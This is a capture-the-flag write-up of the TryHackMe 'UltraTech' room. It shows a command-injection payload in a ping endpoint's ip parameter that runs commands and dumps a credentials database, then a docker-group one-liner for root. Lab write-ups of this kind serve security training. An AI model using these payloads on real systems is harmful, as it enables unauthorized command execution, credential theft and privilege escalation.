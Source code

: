```yaml
---
title: "TryHackMe - UltraTech"
author: Nasrallah
description: ""
date: 2022-09-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, docker, cracking, js, rce]
img_path: /assets/img/tryhackme/ultratech
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [UltraTech](https://tryhackme.com/room/ultratech1) from [TryHackMe](https://tryhackme.com). The machine is running a web server where we find a js file disclosing a way to run command on the target that leads to a foothold. Being part of docker group makes it easy to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.216.105
Host is up (0.093s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The scans shows 3 open ports, 22 running VSFTPD, 22 running OpenSSH and 8081 running Node.js.

If we run another nmap scan for all ports, it discovers another open ports

```terminal
31331/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

Port 31331 open running Apache web server.

### Web

Let's navigate to the node.js web page on port 8081.

![](1.png)

Nothing interesting, let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.85.137:8081
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/28 05:36:33 Starting gobuster in directory enumeration mode
===============================================================
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
===============================================================

```

Found two directories but they don't give much information.

Let's go the the web page on port 31331.

![](2.png)

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.85.137:31331
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/28 06:02:40 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/css                  (Status: 301) [Size: 319] [--> http://10.10.85.137:31331/css/]
/favicon.ico          (Status: 200) [Size: 15086]                                   
/images               (Status: 301) [Size: 322] [--> http://10.10.85.137:31331/images/]
/javascript           (Status: 301) [Size: 326] [--> http://10.10.85.137:31331/javascript/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.85.137:31331/js/]        
/robots.txt           (Status: 200) [Size: 53]                                             
/server-status        (Status: 403) [Size: 303]                                            
===============================================================
```

Let's check `robots.txt`.

![](3.png)

Let's see what's on the text file.

![](4.png)

Found a couple of html file but they are not very useful to us.

Checking other directories we found with gobuster we find the following.

![](5.png)

The api.js file has the following.

```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();

```

According to the js file, we can execute command on `http://{APIURL}:8081/ping?ip={command}`

## **Foothold**

Let's test this functionality by running the command `id` for example:

```url
http://10.10.216.105:8081/ping?ip=`id`
```

![](6.png)

We have command execution on the target.

When we run the `ls`, we get this.

```terminal
┌──(sirius㉿kali)-[~]
└─$ curl 'http://10.10.216.105:8081/ping?ip=`ls`'                   
ping: utech.db.sqlite: Name or service not known
                                                                                                                                                             
┌──(sirius㉿kali)-[~]
└─$ curl 'http://10.10.216.105:8081/ping?ip=`cat%20utech.db.sqlite`'
���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
                      
```

We found a file with some hashes in it. We can crack them using [crackstation](https://crackstation.net/)

![](7.png)

Got the password for `r00t`, let's login with ssh.

![](8.png)

## **Privilege Escalation**

When we run the command `id`, we get this:

```terminal
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

We are part of `docker` group. Let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell)

![](9.png)

We can run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` to get root.

![](11.png)

There is no image called alpine.

Let's list the docker process with `docker ps -a` and replace **alpine** with the image we find in the process.

![](10.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
